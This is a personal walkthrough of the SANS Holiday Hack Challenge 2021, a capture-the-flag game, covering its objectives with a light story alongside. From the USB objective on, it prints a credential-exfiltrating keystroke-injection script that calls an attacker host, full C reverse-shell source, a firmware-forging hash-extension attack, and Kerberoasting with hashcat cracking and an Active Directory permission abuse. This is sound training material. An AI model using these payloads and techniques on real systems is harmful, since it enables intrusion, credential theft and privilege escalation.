

Objectives
Objective 1: Orientation
Objective 1 is great for getting your bearings KringleCon. First, for Objective 1a, talk to Jingle Ringford. Do this by clicking on Jingle Ringford with your mouse. Next complete Objective 1b. Get your badge. This is critical! After you have your badge, for Objective 1c, pick up your wifi adapter. How cool is that! And now for your Objective 1d -- the last in this series and the first terminal challenge of Holiday Hack 2021. The answer to type is "answer"! Success! Let's goooooooooooo!
What I Learned
Do not over think your challenges. Sometimes the answer is simply answer.
Sub-narrative
Wow. How time flies. Here it is the end of 2021 and I'm about to embark on another KringleCon adventure. Most people see Jingle Ringford's dialog as simple, harmless, encouraging banter. But Jingle and I go way back. I could tell from the look in Jingle's eyes and the way they said "FUN" that something was up. After some prodding, Jingle warned me that Jack Frost had taken things to a whole new level this year. I thanked my buddy for the heads-up and handed Jingle an invite to my KringleCon after-party. I had no idea whether I'd complete all the objectives this year, but to push myself, I scheduled a party. My pockets were loaded with invites.
Objective 2: Santaigo
To solve this "Where in the world is Caramel Santaigo?" challenge, start by talking to Piney Sappington in Santa's courtyard. Piney points us to the ExifMetadata terminal challenge. (See "Terminals" in the left navigation.) After getting hints from Piney, it is time to play "Where in the world is Caramel Santaigo?"
My son got really good at this. He advised me as I fumbled through it. My strategy was to go through the game a few times and take down notes as I researched the points below. This allowed me to move quickly and grab elf characteristics in order to filter them in the InterRink database. With the notes below, I quickly knew where I needed to ride the sleigh next.
Hints from Piney Sappington help with the MGRS navigation data and three-words:
- https://en.wikipedia.org/wiki/Military_Grid_Reference_System
- https://what3words.com/
Countries from OSINT Investigations:
"only, milder, vanilla" - Japan
"staring desire frost" - Iceland
"frozen,push,tamed" - England
32U NU 05939 98268 - Germany
33U VR 58560 48464 - Czech Republic
137.208.0.0/16 - Austria
51.219,4.402 - Belgium
81.244.0.0/14 - Belgium
Défilé de Noël - Canada
Tivoli Gardens - Copenhagen

What I Learned
What3words or MGRS is incredibly cool! I showed my kids how to find our house with what3words. We laughed. I'd share those words here, but I don't want to give away my location!
Sub-narrative
In Santa's courtyard I had a conversation with Cyberus. He explained that he tried to stop Jack Frost by biting him in the ankle. Jack got mad and told Cyberus he was a two-faced no good for nothing...and Cyberus said, "You mean three-faced!" He then bit him two more times with his other two heads. I know I shouldn't laugh when people get hurt, but I laughed so hard I my Wi-fi Dongle nearly fell out of my badge! It's a good thing it didn't because I needed it for the next objective. This was already shaping up to be a crazy adventure at KringleCon.
Objective 3: Frost Tower
Turn up the heat to defrost the entrance to Frost Tower. Click on the Items tab in your badge to find a link to the Wifi Dongle's CLI interface. Talk to Greasy Gopherguts outside the tower for tips.
(Greasy is at the Grepping for Gold terminal.)
Greasy was very generous with hints.
Greasy offered the following nudges:
- Consider using the following wifi commands: iwlist and iwconfig. Great for managing wi-fi from the Linux command line!
- cURL is great a way to interact with web pages via command line.
- Lastly, there may come a time where you need to send a POST request. Do this with the --data-binary option.
To solve this challenge:
- Get close to the entrace of Frost's Tower
- Go to "items" in your badge and click on the "Wifi Dongle"
-
Use "iwlist scanning" and notice the following SSID.

-
Connect to this SSID with the following command:
iwconfig wlan0 essid "FROST-Nidus-Setup"

-
Check the thermostat's http interface using cURL.
curl http://nidus-setup:8080/
-
Notice that there is a registration page.
curl http://nidus-setup:8080/register
-
Also, notice there is an apidoc page.
-
Using this and hits from Greasy Gopherguts, execute the following API update:
curl --data-binary '{"temperature":40}' http://nidus-setup:8080/api/cooler
What I Learned
You can find wireless networks and connect to them from the command line! Also, just because you don't have access to one API path doesn't mean you can't get to the others. :)
Sub-narrative
My Dongle sure did come in handy. Without it I wouldn't have made it into Frost Tower. I took a deep breath and headed in, pretending to hit the slots. I mean, who would put money in slot machines at Frost Tower? Studying one particular machine, I noticed something odd and took notes. Jack started limping over to me when he saw me. I quickly put my notepad away. Jack asked me if I needed help with anything. I told him I didn't and that I was just there to win big money on his beautiful slot machines. "If I win," I told him, "I'm going to hire a dog catcher to get that Cyberus dog and put him in a kennel!" (Who is two-faced now? Me!) For some reason, Jack really liked that idea. He gave me $100 dollars to use on his slots. Perfect! Now I could do real research to find out what was up with these machines. And something was up. Unfortunately, what I discovered got me into a bit of trouble.
Objective 4: Slot Machine
Test the security of Jack Frost's slot machines. What does the Jack Frost Tower casino security team threaten to do when your coin total exceeds 1000? Submit the string in the server data.response element. Talk to Noel Boetie outside Santa's Castle for help.
Answer: "I'm going to have some bouncer trolls bounce you right back out of this casino!"
Noel suggests:
- That the slot machine is subject to parameter tampering.
- Proxies like Burp can help to resend a request with different parameters. Even Firefox can do this!
-
This might be a handy guide for navigating code logic:
http://www.natna.info/English/Teaching/CSI30-materials/Chapter1-cheat-sheet.pdf
Use the above hints:
- Start tampering parameters in a proxy like Burp. Notice that winnings increase when numline is negative. In this case, I set it to negative 3.
-
Continue to send this request until credit is higher than 1000.

-
Check server response in Burp and notice that you might be in a bit of trouble now.
"I'm going to have some bouncer trolls bounce you right back out of this casino!"

What I learned
Sometimes there are parameters you can see in Burp that you might not have known about otherwise. Don't assume that because parameters are all positive, they can't be adjusted to the negative.
Sub-narrative
I might've gotten a little carried away and made adjustments to Jack's slot machine. I turned that $100 into $1019 and made my back to Santa's castle so that Jack could cool down a bit. On my way out Jack hollered, "You'd better get that dog out of Santa's Castle!!" I told him I would, but that there weren't any dog catchers in the North Pole so it might be a while.
Back at Santa's Castle I found a vending machine in the Speaker UNPreparation Room. It had dog treats in it! Flush with cash, I got 21 dog treats from the vending machine and delivered them to my friend Cyberus. (Who is three-faced now? Me!) I gave seven treats to each of his heads. All of Cyberus' heads were happy with me. One of the heads dropped something in my hand. A Rubber Ducky?? But this didn't look like the type of toy that a dog would play with. Something was up.
Objective 5: USB Device
Answer: ickymcgoop
Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.
Jewel provides:
Run mallard.py to decde the inject.bin binary:
python ./mallard.py --file /mnt/USBDEVICE/inject.bin
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
ENTER
DELAY 200
STRING chmod u+x ~/.config/sudo/sudo
ENTER
DELAY 200
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bash_profile
ENTER
DELAY 200
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
Un-reversing the string above and then decoding it from base64:
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
We see that the user in question is listed as the user for whom a public key is being injected.
What I Learned
There are ways to decode ducky scripts! And using a ducky script to provide SSH access to a user is very, very clever.
Sub-narrative
I put the Rubber Ducky in my pocket and hiked up to the Speaker UNPreparadness Room. The things I learned there! After solving the "Strange USB Device" challenge, I inspected the Rubber Ducky using my new tricks. What on earth? There was a binary on this thing. I wanted to reverse engineer it, but was short on knowledge. Was Cyberus trying to infect the next computer I stuck this into or was he trying to tell me something? I read through a book on shellcode. It wasn't easy to comprehend.
Before continuing on with KringleCon, I decided to eat lunch at Cyberus' Cafe. Not many people know about it. Cyberus' wife Cyberia runs the cafe and does all the work but Cyberus gets to put his name above the door.
I got to know a deer hunter at the table next to mine. He had a bright orange hat, bright orange vest and bright orange shoes. Orange shoes? Anyway, he said he was deep into KringleCon challenges and that the Shellcode Primer in Jack's office might be just the thing to cure me of my ignorance. Boom! I thanked him for sharing this information and headed on my way. I was nervous I might run into Jack, but I had to get to the bottom of this mystery.
Objective 6: Shellcode
Answer: "cyber security knowledge"
Complete the Shellcode Primer in Jack's office. According to the last challenge, what is the secret to KringleCon success? "All of our speakers and organizers, providing the gift of ____, free to the community." Talk to Chimney Scissorsticks in the NetWars area for hints.
Hints from Chimney Scissorsticks (after successfully playing "Santa's Holiday Hero" in the Netwars area).
- If you run into any shellcode primers at the North Pole, be sure to read the directions and the comments in the shellcode source!
- Also, troubleshooting shellcode can be difficult. Use the debugger step-by-step feature to watch values.
- Lastly, be careful not to overwrite any register values you need to reference later on in your shellcode.
Hello World
call hello
db "Hello World!",0 ;put reference to string in correct register
hello:
pop rbp
mov rax, 1 ;syscall for write
mov rdi, 1 ;file descriptor
mov rsi, rbp ;set rsi to string
mov rdx, 12 ;set rdx to length of string
syscall ;perform syscall using rax value and paremeters
ret; return cleanly
Opening a File
call stringtoregister
db '/etc/passwd',0
stringtoregister:
pop rbp
mov rax, 2 ;correct syscall number for opening file
mov rdi, rbp ;set rdi to filename
mov rsi, 0 ;set rsi to second arg - 0 is fine - file descriptor
mov rdx,0 ;set rdx to third arg - 0 is fine
syscall ;perform the syscall
;syscall sets rax to the file handle
ret
Reading a File
"Secret to KringleCon success: all of our speakers and organizers, providing the gift of cyber security knowledge, free to the community."
call getfilename
db '/var/northpolesecrets.txt',0
getfilename:
pop rbp
; TODO: Call sys_open
mov rax, 2 ;correct syscall number for opening file
mov rdi, rbp ;set rdi to filename
mov rsi, 0 ;set rsi to second arg - 0 is fine - file descriptor
mov rdx,0 ;set rdx to third arg - 0 is fine
syscall ;perform the syscall
; TODO: Call sys_read on the file handle and read it into rsp
mov rax, 0
mov rsi, rsp ;reading into buffer
mov rdi, 3
mov rdx, 256
syscall
; TODO: Call sys_write to write the contents from rsp to stdout (1)
mov rax, 1
mov rdi, 1
mov rsi, rsp
mov rdx, 256
syscall
; TODO: Call sys_exit
mov rax, 60
mov rdi, 99
syscall

What I Learned
Holy Cow! "Mov" is not what a cow says when you're standing in front of her water trough. It is a way to get values into registers! And if you get certain values in to some registers like "rax" it actually calls a different function. A new world is opening up to me. Can't wait until my next CTF reverse engineering challenge.
Sub-narrative
With my new reverse engineering skills, I took another look at the binary in my Rubber Ducky from Cyberus. Some sort of malicious reverse shell disguised as a printer driver! Was Cyberus trying to infect my printer? That couldn't be it.
Exhausted from so much learning and so many unanswered questions, I decided to visit the the Reindeer Rest Area north of the North Pole. To get there you have to talk to a guy named Dumpy. He puts a black bag over your head. Next thing you know, you're sitting back in a La-Z-Boy recliner drinking hot cider. I knew I couldn't stay long. If I didn't solve this mystery, I'd definitely regret it.
While Dumpy was taking me back to the North Pole, he asked me why I left so quickly. I explained that Cyberus gave me a Rubber Ducky with printer malware on it. He told me he heard about a stolen Kringle Castle printer in the next objective. What? Was Cyberus giving me something that might help with a challenge? I thanked Dumpy for this information and handed him an invitation to my KringleCon after-party.
Objective 7: Printer
Answer: Troll_Pay_Chart.xlsx
Investigate the stolen Kringle Castle printer. Get shell access to read the contents of /var/spool/printer.log. What is the name of the last file printed (with a .xlsx extension)? Find Ruby Cyster in Jack's office for help with this objective.
Hints:
- Files placed in /app/lib/public/incoming will be accessible under https://printer.kringlecastle.com/incoming/.
- When analyzing a device, it's always a good idea to pick apart the firmware. Sometimes these things come down Base64-encoded.
- Hash Extension Attacks can be super handy when there's some type of validation to be circumvented.
- If you append multiple files of a given type, the last one is processed
Read this: Hash Extension Article
Recon Steps:
- Carefully read the hash extension write-up.
- Do the examples in the write-up to see how it works.
- Download GitHub repository (in article) and "make" the hash_extender binary.
- May need to do "sudo apt install libssl-dev" if you're getting error.
- Download the printer firmware from "Firmware Update" page.
- Notice that it contains "secret_length" and "signature"
- Also notice that the firmware itself is base64 encoded.
Exploit Steps:
- Create a reverse shell binary payload. (See below)
- Alternatively, binary can simply move log file where you can read it.
- "cp /var/spool/printer.log /app/lib/public/incoming/somefile.txt"
- Zip up this payload into a "firmware2.zip" file.
- Convert this "firmware2.zip" into hex. I just did this at CyberChef.
- Create a duplicate firmware upload called "firmware-export2.json"
- Run "hash_extender" with parameters in bash script. (See below)
- Copy new signature into "firmware-export2.json"
- Take result of "hash_extender" script to CyberChef.
- Use "from Hex" to get it to raw.
- Base64 encode it and add to "firmware" section of "firmware-export2.json"
- Start listener on attacking machine "nc -nvlp 8888"
- Upload "firware-export2.json" to printer interface for "update"
- Pop a shell!!
- Run "tail /var/spool/printer.log"
- See the filename is "Troll_Pay_Chart.xlsx"
- Enter this answer into objective. Boom! Objective solved.
Build Payload: reverse_shell.c
/* credits to http://blog.techorganic.com/2015/01/04/pegasus-hacking-challenge/ */
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#define REMOTE_ADDR "re.dac.t.ed"
#define REMOTE_PORT 8888
int main(int argc, char *argv[])
{
struct sockaddr_in sa;
int s;
sa.sin_family = AF_INET;
sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
sa.sin_port = htons(REMOTE_PORT);
s = socket(AF_INET, SOCK_STREAM, 0);
connect(s, (struct sockaddr *)&sa, sizeof(sa));
dup2(s, 0);
dup2(s, 1);
dup2(s, 2);
execve("/bin/bash", 0, 0);
return 0;
}
Compile Payload:
gcc -o firmware.bin reverse_shell.c
Zip Payload:
zip -r firware2.zip firware.bin
Hash Extender Parameters:
#!/bin/bash
./hash_extender \
--file firmware.zip \
--signature 2bab052bf894ea1a255886fde202f451476faba7b941439df629fdeb1ff0dc97 \
--append "[hex of zipped binary payload goes here]" \
--append-format=hex \
--secret 16 \
--format sha256 \
--out-data-format=hex
Shell:
Connection received on re.dac.te.d 56918

What I Learned
Just because something you upload has the signature it needs, doesn't mean it is legit. Also, with the right tools, you can extend yourself a hash! People like Ron Bowes are amazing. These calculations are enormously complex and I'm in awe!
Sub-narrative
Dumpy was right! The printer malware I got from Cyberus did come in handy. Now that this mystery was solved, I could enjoy the rest of my KringleCon with a bit less angst. Or so I thought. I ran into Dealer the Pidgeon at the entrace to Santa's Castle. Dealer told me that I "hit the jackpot." I was pretty excited. When I asked him where I could collect my prize, he just kept telling me the same thing, "You hit the jackpot!"
The only way I figured I could really get something out of this bird was to give it something first. I ran up to the vending machine in the Speaker UNPreparedness Room. Yup, just as I suspected. In addition to dog treats, there were bags of bird feed!
I put in enough cash for eight bags. Two bags for Dealer and two bags for each of his friends: Yeller, Seller, and Quacker. Dealer's pidgeon gang was happy with me now. They made me an honorary member of their group. And did they ever start talking! They were falling over each other, telling me about the kerberoasting objective up next.
Cracker said the best thing about the kerberoasting challenge was cracking hashes. Yeller said the best thing about it was network recon. Seller said looking for shares was awesome because that was were you might find goodies. Dealer explained that the very best thing about the kerberoasting challenge was abusing users, groups and permissions.
I ran off to collect hints from elves and begin my "Kerberoasting on an Open Fire" adventure.
Objective 8: Kerberoasting
Kerberoasting on an Open Fire
Answer: "Kindness"
Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the ElfU Portal. Find Eve Snowshoes in Santa's office for hints.
Find Eve Snowshoes in Santa's Office for hints.
Hints
- Investigating Active Directory errors is harder without Bloodhound, but there are native methods.
- Learn about Kerberoasting to leverage domain credentials to get usernames and crackable hashes for service accounts.
- Administrators often store credentials in scripts. These can be coopted by an attacker for other purposes!
- Check out Chris Davis' talk and scripts on Kerberoasting and Active Directory permissions abuse.
- OneRuleToRuleThemAll.rule is great for mangling when a password dictionary isn't enough.
- CeWL can generate some great wordlists from website, but it will ignore digits in terms by default.
Initial Access
(Use registration page listed in the objective to get credentials.)
ssh xvduawqtni@grades.elfu.org -p 2222
ElfU Domain Username: xvduawqtni
ElfU Domain Password: Hbqwldgap#
Spawn Shell from Python
import pty; pty.spawn("/bin/bash")
Recon
nmap -v -A 172.17.0.4
Found the domain controller.
PORT STATE SERVICE VERSION
42/tcp open nameserver?
53/tcp open domain (generic dns response: NOTIMP)
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
88/tcp open kerberos-sec Heimdal Kerberos (server time: 2021-12-25 12:58:19Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: ELFU)
389/tcp open ldap (Anonymous bind OK)
| ssl-cert: Subject: commonName=SHARE30.elfu.local/organizationName=Samba Administration
| Issuer: commonName=SHARE30.elfu.local/organizationName=Samba Administration
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2021-10-29T19:30:08
| Not valid after: 2023-09-29T19:30:08
| MD5: cab3 d377 caef 900f b3e9 7ce5 3369 e216
|_SHA-1: bdb4 641f af06 b2b4 fa47 43da 8184 f1b1 5281 c04a
|_ssl-date: 2021-12-25T12:58:46+00:00; -29s from scanner time.
445/tcp open netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: ELFU)
464/tcp open kpasswd5?
636/tcp open ssl/ldap (Anonymous bind OK)
| ssl-cert: Subject: commonName=SHARE30.elfu.local/organizationName=Samba Administration
| Issuer: commonName=SHARE30.elfu.local/organizationName=Samba Administration
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2021-10-29T19:30:08
| Not valid after: 2023-09-29T19:30:08
| MD5: cab3 d377 caef 900f b3e9 7ce5 3369 e216
|_SHA-1: bdb4 641f af06 b2b4 fa47 43da 8184 f1b1 5281 c04a
|_ssl-date: 2021-12-25T12:57:23+00:00; -1m52s from scanner time.
1024/tcp open msrpc Microsoft Windows RPC
3268/tcp open ldap (Anonymous bind OK)
| ssl-cert: Subject: commonName=SHARE30.elfu.local/organizationName=Samba Administration
| Issuer: commonName=SHARE30.elfu.local/organizationName=Samba Administration
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2021-10-29T19:30:08
| Not valid after: 2023-09-29T19:30:08
| MD5: cab3 d377 caef 900f b3e9 7ce5 3369 e216
|_SHA-1: bdb4 641f af06 b2b4 fa47 43da 8184 f1b1 5281 c04a
|_ssl-date: 2021-12-25T12:57:45+00:00; -1m30s from scanner time.
3269/tcp open ssl/ldap (Anonymous bind OK)
| ssl-cert: Subject: commonName=SHARE30.elfu.local/organizationName=Samba Administration
| Issuer: commonName=SHARE30.elfu.local/organizationName=Samba Administration
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2021-10-29T19:30:08
| Not valid after: 2023-09-29T19:30:08
| MD5: cab3 d377 caef 900f b3e9 7ce5 3369 e216
|_SHA-1: bdb4 641f af06 b2b4 fa47 43da 8184 f1b1 5281 c04a
|_ssl-date: 2021-12-25T13:00:10+00:00; +55s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/25%Time=61C71570%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,2B,"\0\)\0\x06\x81\x80\0\x01\0\0\0\0\0\x01\x07version
SF:\x04bind\0\0\x10\0\x03\0\0\)\x02\0\0\0\0\0\0\0")%r(DNSStatusRequestTCP,
SF:E,"\0\x0c\0\0\x90\x04\0\0\0\0\0\0\0\0");
Service Info: Host: SHARE30; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: -25s, deviation: 57s, median: 0s
| nbstat: NetBIOS name: SHARE30, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
| SHARE30<00> Flags: <unique><active>
| SHARE30<03> Flags: <unique><active>
| SHARE30<20> Flags: <unique><active>
| ELFU<1c> Flags: <group><active>
| ELFU<00> Flags: <group><active>
| __SAMBA__<00> Flags: <group><active><permanent>
|_ __SAMBA__<20> Flags: <group><active><permanent>
| smb-os-discovery:
| OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
| Computer name: share30
| NetBIOS computer name: SHARE30\x00
| Domain name: elfu.local
| FQDN: share30.elfu.local
|_ System time: 2021-12-25T12:59:07+00:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: required
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2021-12-25T12:59:07
|_ start_date: N/A
./GetADUsers.py ELFU.LOCAL/bltxerbtzt:Lhyzaydwl! -all
Some users to be on the lookout for.
Name PasswordLastSet LastLogon
-------------------- ------------------- -------------------
Administrator 2021-10-26 18:45:29.572963 2021-11-02 13:20:47.321794
Guest <never> <never>
admin 2021-10-26 18:41:00.590204 2021-10-26 18:46:32.818591
krbtgt 2021-10-29 19:21:35.937317 <never>
elfu_admin 2021-10-29 19:24:53.572006 2021-12-25 15:15:40.806162
elfu_svc 2021-10-29 19:25:04.305279 2021-12-25 14:11:45.258629
remote_elf 2021-10-29 19:25:30.961706 2021-12-25 15:17:49.064199
smbclient -L //172.17.0.4
smbclient -L //172.17.0.4/
Enter WORKGROUP\vvghojousn's password:
Sharename Type Comment
--------- ---- -------
netlogon Disk
sysvol Disk
elfu_svc_shr Disk elfu_svc_shr
research_dep Disk research_dep
IPC$ IPC IPC Service (Samba 4.3.11-Ubuntu)
Notice some interesting shares.
They are either empty or inaccessible.
smbclient //172.17.0.4/netlogon (empty)
smbclient //172.17.0.4/sysvol (elfu.local\scripts\*empty*)
smbclient //172.17.0.4/elfu_svc_shr (NT_STATUS_ACCESS_DENIED)
smbclient //172.17.0.4/research_dep (NT_STATUS_ACCESS_DENIED)
smbclient //172.17.0.4/IPC$
./GetUserSPNs.py elfu.local/bltxerbtzt:Lhyzaydwl! -outputfile ~/tgs.txt
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation
----------------------------------- -------- -------- -------------------------- -------------------------- ----------
ldap/elfu_svc/elfu elfu_svc 2021-10-29 19:25:04.305279 2021-12-25 14:11:45.258629
ldap/elfu_svc/elfu.local elfu_svc 2021-10-29 19:25:04.305279 2021-12-25 14:11:45.258629
ldap/elfu_svc.elfu.local/elfu elfu_svc 2021-10-29 19:25:04.305279 2021-12-25 14:11:45.258629
ldap/elfu_svc.elfu.local/elfu.local elfu_svc 2021-10-29 19:25:04.305279 2021-12-25 14:11:45.258629
Possible passwords from CEWL list (registration page)
rocks4socks
cookiepella
asnow2021
v0calprezents
Hexatonics
reindeers4fears
hashcat -m 13100 -a 0 tgs.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 cewl.txt
$krb5tgs$23$*elfu_svc$ELFU.LOCAL$elfu.local/elfu_svc*$8d8f349b6173fcda2e9a6814b477f91f$5ab1a80efb8c7dae30d59fa6d3a88c2a1d341d24158f7bd89b1f1dcc81c5ed5533ffcfc9077e3a6c8fae406e35f00412c783ab9a8dc55f20cf1801d2cf8376a344a7e6692b66f1f717dabd2fefca9e3af7e1e6719c15e4070958f7e1c79aea2d7fef5292c4ee58e5188d8a19423ab1116fbe2379ba84ab79eb1b3181fd795ab96ac2529b392ac999a9f3c608479be1a68f8e9f4a2f7359c240162cf4b2ed51df3f3b20159e2188831505a3670fee9e3fe7c043235fe008fe367a18b7508aa73e1fc7fad1337a4af191e2fa38e038fc4263b48d0448d99e32edd6d8f6cadb3a7ef6b561334246c5836c38e236a4649911c781424f78202d3098d498bfe49d250160f70eae45a13028bb736f9b0900e7e1ab5ac9a7b3a407a81fff6d66416a470ba3308d0d8e2320bb31d77fd623764ebda28a6f036f3be25c232f2bb21c2507c1a06e4f204df664e76355dfb001a59a9b03c6c5fbee6a290b542dc0e06ad19e3c7e55c9a2ef0cab690d2ffad1b8d1596293d4bb2772c77066f24b5c6a0aa08f5977a196f81b8240d9b5d76332c1f0ec7e18195ab78483302113cd8ea1dcdde7c25ffd31d25a1f00d0398ef3f8f55a650359e4503d6fa346304ce3b060c97fbb745bc3970804ac467a1f2c9c84badd1265cc1834c0794b4523f943cb68470ac8e6fbd26a9bf7c629c45aca1fed83494aa5fb37361c1effac2ef4bf07a990377c539490528a14caf3540ca31ae523e73e72b1b547206a70f6a1b107d29c6584ab32112bd64607756a87345ab42224fc9fd43ed254ebf59061ae3204d922958469d636dd3aa2ffb13693f056ac39b13a0f71df6ac2a2ebe6866bbf44be9c78b7d43d6719500589350ddac312e8aa6de4a3feaab5b80705e7e3866b0b6d9fd79138530648f1294363ad89c6392810c5936bcaf80080d7ba3b855f98c8febdb8b7a9f0891995dd962d6a2b5ee09b1ab7436a511fdd152ff2ca06a387e529368fc73fd6f6b9de6695cfd3f521b34f7a426c8c3d4e3d575ecbe13912363eeee8e0a83b0efc04d7e32b54855621692dfda367eb23893fda4745a09421d5362fe8ca338282cdb027eba1da797f266a2c4f65a3f137983ecca12a3c82d834ceb10a8e839279fdebdae0252c49ae2d0572b6d5cfa8603d00f6a0a0daedf64460ae55351ad5df2bd25f2b6c74f5a0243b7745b92512847168bb71a09c232bccfaa0efe73b009a15ab9c756e3bf6cc8fbe3af4be8837b11fe553e3529aa175a655cd9fbec58be02b646eacbc0d26cafc4f6837603101b8c0dfb8012571042c26a9c1bd3f825a0be85e289c06480949798f383e91586df0ff00a4c34014d3da7494bb208db078f3ad96bd76130f93ba6c058404a280042441da2048e8d3270d0ab2930e61bf4937d8598bf4e41e7b1cc1fe58bf9244b5e9d14c4ec44a7ae3fbe0860e808d18e0b5c4c8488dd9:Snow2021!
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 TGS-REP etype 23
Hash.Target......: $krb5tgs$23$*elfu_svc$ELFU.LOCAL$elfu.local/elfu_sv...488dd9
Time.Started.....: Sat Dec 25 16:06:45 2021 (13 secs)
Time.Estimated...: Sat Dec 25 16:06:58 2021 (0 secs)
Guess.Base.......: File (cewl.txt)
Guess.Mod........: Rules (OneRuleToRuleThemAll.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 233.2 kH/s (10.27ms) @ Accel:64 Loops:32 Thr:64 Vec:16
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 3134208/4003615 (78.28%)
Rejected.........: 0/3134208 (0.00%)
Restore.Point....: 0/77 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:40672-40704 Iteration:0-32
Candidates.#1....: _The_ -> cimes
Password: Snow2021!
smbclient -U elfu_svc //172.17.0.4/elfu_svc_shr
Use the password from the cracked hash
Can now see all the files on this share: elfu_svc_shr
cat .ps1 | grep -l -R remote_elf
Found this file: (after grep for "remote_elf")
GetProcessInfo.ps1
powershell -Command "./GetProcessInfo.ps1"
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
NPM(K) PM(M) WS(M) CPU(s) Id SI ProcessName PSComputerNam
e
------ ----- ----- ------ -- -- ----------- -------------
9 4.30 10.10 0.00 1444 0 conhost 10.128.1.53
9 6.54 12.22 0.02 4020 0 conhost 10.128.1.53
20 2.31 5.46 0.00 596 0 csrss 10.128.1.53
9 1.64 4.71 0.00 676 1 csrss 10.128.1.53
32 17.13 22.79 0.00 3912 0 dfsrs 10.128.1.53
12 2.46 7.86 0.00 2940 0 dfssvc 10.128.1.53
powershell -C "./remote.ps1"
Now insert script blocks from presentation.
- List users who have writeDacl to "Research Department"
- Give "Generic All" to my low-priv domain user for this group.
- Add my low-priv user to this group.
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
# 1.
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
